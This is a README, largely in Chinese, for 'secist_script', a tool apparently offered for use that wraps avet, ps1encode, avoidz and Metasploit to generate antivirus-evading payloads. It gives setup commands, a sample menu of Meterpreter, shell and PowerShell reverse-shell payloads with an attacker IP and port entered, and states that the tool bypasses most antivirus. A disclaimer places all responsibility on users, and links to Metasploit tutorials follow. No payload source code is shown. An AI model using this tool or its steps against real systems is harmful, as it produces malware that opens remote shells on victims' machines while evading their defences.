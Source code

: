 
# secist_script

由于传播，利用此脚本所提供的工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，即刻安全以及工具作者不为此承担任何责任。

# 说明

此款工具借鉴

https://github.com/govolution/avet => avet

https://github.com/CroweCybersecurity/ps1encode => ps1encode

https://github.com/M4sc3r4n0/avoidz =>avoidz

web_delivery => msf

Invoke => powershell

# 用法（Usage）：

git clone https://github.com/demonsec666/secist_script.git

sudo chmod -R 777 .

3  sudo ./setup.sh

4. sudo ./secist_script.sh

# 例子 secist> 7

     < avoidz Payload >
      --------------------
                         \   ^__^             
                          \  (oo)\_______     
                             (__)\       )\/\ 
                                 ||----w |    
                                 ||     ||     
+------------++-------------------------++-----------------------+ v1.6 (secist----2017.7.14)

        你的IP地址 :192.168.1.103
        系统版本 :Kali GNU/Linux Rolling \n \l
+------------++-------------------------++-----------------------+

    [1] Meterpreter_Reverse_tcp		 [5] Shell_reverse_tcp
    [2] Meterpreter_Reverse_http		 [6] Powershell_reverse_tcp
    [3] Meterpreter_Reverse_https		 [7] Multi encode payload
    [4] Meterpreter_Reverse_tcp_dns          [8] exit        
    [9] back meun     

                secist>  1
		         secist>请输入你的ip地址: 192.168.1.103
   secist>请输入你的端口: 4444
请稍等几分钟，您的烤鱼即将出炉=====================================》 ##################################################################

Tool To bypass most A.V - dev-labs

# msf系列教程

Metasploit 系列教程 => 链接:https://pan.baidu.com/s/1dFzPkJZ 密码:evwg

Metasploit 系列教程 第八课=> www.ggsec.cn/MSF8-0.html
# mingw32模块安装（如缺少）
vim  /etc/apt/sources.list

deb http://ftp.de.debian.org/debian/ jessie  main

apt-get updete

apt-get install mingw-w64 -y

apt-get install  mingw32

